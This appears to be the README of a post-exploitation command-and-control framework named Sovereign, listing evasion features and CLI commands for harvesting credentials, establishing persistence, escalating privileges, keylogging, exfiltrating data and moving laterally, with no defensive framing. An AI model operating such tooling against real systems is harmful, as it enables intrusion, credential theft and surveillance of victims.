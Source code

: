 # Sovereign Post-Exploitation Framework

This framework provides advanced post-exploitation capabilities with a focus on evasion and automation.

## Features

- **Enhanced Evasion Techniques**: Polymorphic code, sandbox detection, time-based evasion.
- **Advanced Post-Exploitation Modules**: Credential harvesting, persistence, privilege escalation, reconnaissance, data exfiltration, keylogging, lateral movement.
- **Secure Communication**: Encrypted communication between agent and C2 server.
- **Modular Design**: Easily add new modules and functionalities.
- **Cross-Platform Support**: CLI available in both Python (`cli.py`) and PowerShell (`cli.ps1`).
- **Logging and Reporting**: Detailed logging and report generation.

---

## Usage

### Setting Up the C2 Server

1. **Create a Python virtual environment and activate it**:
    ```bash
    python -m venv venv
    source venv/bin/activate  # On Windows: venv\Scripts\activate
    ```

2. **Install the required dependencies**:
    ```bash
    pip install -r c2_server/requirements.txt
    ```

3. **Run the C2 server**:
    ```bash
    python3 c2_server/c2_server.py
    ```

---

## Using the CLI

The CLI provides various commands to interact with the framework.

### Python CLI (`cli.py`)

#### List all registered agents:
```bash
python cli/cli.py list-agents
```

#### Select a registered agents:
```bash
python cli/cli.py select-agent AGENT_ID
```

#### Send a command to a specific agent:
```bash
python cli/cli.py send-command --agent_id AGENT_ID --command "Your command here"
```

#### Generate an obfuscated payload for a specific platform:
```bash
python cli/cli.py generate-payload --platform PLATFORM
```

#### Harvest credentials:
```bash
python cli/cli.py harvest-credentials
```

#### Establish persistence:
```bash
python cli/cli.py establish-persistence
```

#### Escalate privileges:
```bash
python cli/cli.py escalate-privileges
```

#### Gather system information:
```bash
python cli/cli.py gather-system-info --agent_id AGENT_ID
```

#### Exfiltrate data:
```bash
bashpython cli/cli.py exfiltrate-data --file_path /path/to/file
```

#### Start keylogger:
```bash
python cli/cli.py start-keylogger --agent_id AGENT_ID
```

#### Move laterally:
```bash
python cli/cli.py move-laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD
```

---

### PowerShell CLI (`cli.ps1`)

For Windows systems, `cli.ps1` provides the same functionality as `cli.py`. Run the following commands in a PowerShell terminal:

#### List all registered agents:
```powershell
.\cli\cli.ps1 list-agents
```

#### Send a command to a specific agent:
```powershell
.\cli\cli.ps1 send-command -agent_id AGENT_ID -command "Your command here"
```

#### Generate an obfuscated payload for a specific platform:
```powershell
.\cli\cli.ps1 generate-payload -platform PLATFORM
```

#### Harvest credentials:
```powershell
.\cli\cli.ps1 harvest-credentials
```

#### Establish persistence:
```powershell
.\cli\cli.ps1 establish-persistence
```

#### Escalate privileges:
```powershell
.\cli\cli.ps1 escalate-privileges
```

#### Gather system information:
```powershell
.\cli\cli.ps1 gather-system-info -agent_id AGENT_ID
```

#### Exfiltrate data:
```powershell
.\cli\cli.ps1 exfiltrate-data -file_path "C:\path\to\file"
```

#### Start keylogger:
```powershell
.\cli\cli.ps1 start-keylogger -agent_id AGENT_ID
```

#### Move laterally:
```powershell
.\cli\cli.ps1 move-laterally -target_ip TARGET_IP -username USERNAME -password PASSWORD
```

---

## Logging and Reporting

Logs are stored in the `c2_server.log` file located in the `c2_server` directory. This file contains detailed information about agent activities and commands executed.

To generate a report from the logged data:

### Using Python:
```bash
python c2_server/c2_server.py generate-report
```

### Using PowerShell:
```powershell
.\cli\cli.ps1 generate-report
```

This will create a `report.txt` file containing the logs. The report provides a comprehensive view of all interactions and events logged by the C2 server.

---

## Adding New Modules

To add new post-exploitation modules:

- **Python:** Create a new Python file in the `cli/modules` directory and implement the desired functionality.
- **PowerShell:** Add a corresponding PowerShell script in `cli/modules/windows/` if needed.
- Update the CLI scripts (`cli.py` and `cli.ps1`) to include commands for the new module.

---

## Contribution

Contributions to the Sovereign framework are welcome. Please submit a pull request with a detailed description of your changes.

---

## License

This project is licensed under the MIT License.

---

# By the way, we pwn things...
